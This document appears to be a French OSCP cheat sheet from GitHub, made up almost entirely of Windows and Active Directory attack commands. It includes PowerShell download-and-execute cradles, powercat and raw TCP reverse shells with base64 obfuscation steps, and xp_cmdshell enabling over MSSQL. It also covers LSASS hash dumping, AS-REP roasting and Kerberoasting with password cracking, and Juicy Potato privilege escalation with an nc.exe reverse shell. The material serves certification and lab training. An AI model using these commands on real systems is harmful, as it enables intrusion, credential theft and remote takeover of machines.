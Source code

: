 <img src="https://github.com/florianges/Simple-OSCP-cheat-sheet/assets/64069514/4f64d883-9cac-4bc5-b1a5-bcb1f488d072" height="180">

## Commande windows:
**Télécharger puis exécuter un fichier:** powershell "IEX (New-Object Net.WebClient).DownloadString('http://[IP]/shell2.ps1')"  
**Télécharger un fichier:** wget http://[IP]/[fichier] -outfile [fichier]  
Ou alors: (new-object System.Net.WebClient).DownloadFile('http://[IP]/shell.exe','C:\Users\Public\shell.exe')  
**Reverse shell via powercat:** IEX(New-Object System.Net.WebClient).DownloadString('http://[IP]/powercat.ps1');powercat -c [IP] -p 4444 -e powershell
**Historique Powershell:** type C:\Users\[user]\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt  
**Information systeme:** systeminfo  
**Lister les infos d'un user:** net user [user]  
**Lister quel groupe / user ont accès au fichier:** icacls [fichier]  

## Partage Samba:
**Lister tout les partages en anonymous:** smbclient -N -L \\\\[IP]\\  
**Ou:** crackmapexec smb <IP> -u '[user]' -p '[pass]' --shares #Null user  
**Lister tout les partages et les droits associés:** smbmap -H [ip]  
**Aller dans un partage:** smbclient -N \\\\[IP]\\[nom_du_partage]  
**Énumération  des services windows:** enum4liux [IP CIBLE]  

## Connexion a Windows Management (port 5985 par défaut) :
•	evil-winrm -i [IP] -u [USER]  

## Commande powershell offusquée:
pwsh  
$Text = '$client = New-Object System.Net.Sockets.TCPClient("[IP]",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'  
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)  
$EncodedText =[Convert]::ToBase64String($Bytes)  
$EncodedText  
exit  

## Executer des commandes via MSQL :  
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth  
EXECUTE sp_configure 'show advanced options', 1;  
RECONFIGURE;  
EXECUTE sp_configure 'xp_cmdshell', 1;  
RECONFIGURE;  
EXECUTE xp_cmdshell 'whoami';  

## Utilisation du service RPC :
**Connexion au serveur:** rpcclient -U "[USER]" [IP]  
**Lister les users:** enumdomusers  
**Informations sur un user:** queryuser [user]  
**Transformer le format "enumdomusers" en une liste de user:** cat user.txt | tr -d '[]' | cut -d ' ' -f1 | cut -c6-  
**Lister les groupes:** enumdomgroups  
**Lister les groupe du domaine:** enumalsgroups domain  
**Lister les groupe par défault:** enumalsgroups builtin  
**Lister les SID présent dans un groupe :** queryaliasmem domain [RID]  
**Trouver le nom d'un utilisateur via son SID:** lookupsids [SID]  
**lister les partages NFS:** nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount [IP]  

## Utilisation de impacket :
**shell via un partage samba :** psexec.py [user]@[IP]  
**shell via un partage samba en écriture:** smbexec.py [user]@[IP]  
**shell via Windows Management Instrumentation:** wmiexec.py [user]@[IP]  
**commande via le Planificateur de tâches:** atexec.py [user]@[IP] [commande]  
**connexion à MSQL:**  impacket-mssqlclient [user]@[IP] -windows-auth  

## Bloodhound-python :
sudo neo4j start --> démare neo4j  
bloodhound --no-sandbox --> ouvre bloodhound  
bloodhound-python -d [domain] -u [user] -p [password] -gc [name.domain] -c all -ns [IP] --> récupère les fichiers  
Find Principles with DCSync Rights. --> propose un schéma avec les objets principaux  
Shortest Paths to High value Targets --> propose un schéma avec plus de détail  

## Post énumération (script) :
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe

## Reverse shell :
powershell iex(new-object net.webclient).downloadstring('http://[IP]/shell.ps1')  
Télécharger shell.ps1  

## Récupérer les hash du processus LSASS:
crackmapexec smb 192.168.1.105 -u '[user]' -p '[password]' --lsa

## Attaque sur Kerberos:
### ASREPRoast:
ASREPRoast est une technique qui permet de récupérer le mot de passe Kerberos d'un utilisateur en brutforcant son TGT lorsque que la pré-authentification est désactivé  
récupération du hash d'un compte:  
GetNPUsers.py [domaine]/[user] -request -no-pass -dc-ip [IP]  
Liste des users  
GetNPUsers.py [domaine]/ -dc-ip [IP] -request  
récupération d'un hash avec une wordlist de user:  
GetNPUsers.py [domaine]/ -usersfile [wordlist user] -request -no-pass -dc-ip [IP]  
Bruteforce du hash:  
john [hash file] -wordlist=rockyou.txt  
### Kerberoasting:
Kerberoasting est une technique pour récupérer le mot de passe d'un compte de service en bruteforcant le TGS fournis pour ce service  
récupération du hash:  
GetUserSPNs.py -request -dc-ip [ip] [FQDN]/[user]  
Bruteforce du hash:  
john [hash file] -wordlist=rockyou.txt  

### Juicy Potato:
Dans sa configuration par défaut, Microsoft Windows Serveur a une vulnérabilité critique qui peut permettre l'élévation de privilèges.  
Cette vulnérabilité s'appelle Juicy Potato.  
Les versions de Windows Serveur suivantes sont affectées :  
•	Windows Serveur 2008 R2  
•	Windows Serveur 2012  
•	Windows Serveur 2012 R2  
•	Windows Serveur 2016  
Méthode :  
Uploader le .exe : dowload  
créer un .bat reverse shell:  
echo START C:\inetpub\wwwroot\wordpress\wp-content\nc.exe 10.10.14.69 1111 -e cmd.exe > reverse_shell.bat  
Puis l'exécuter avec Juicy Potato  
PS.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\reverse_shell.bat -l 1337  
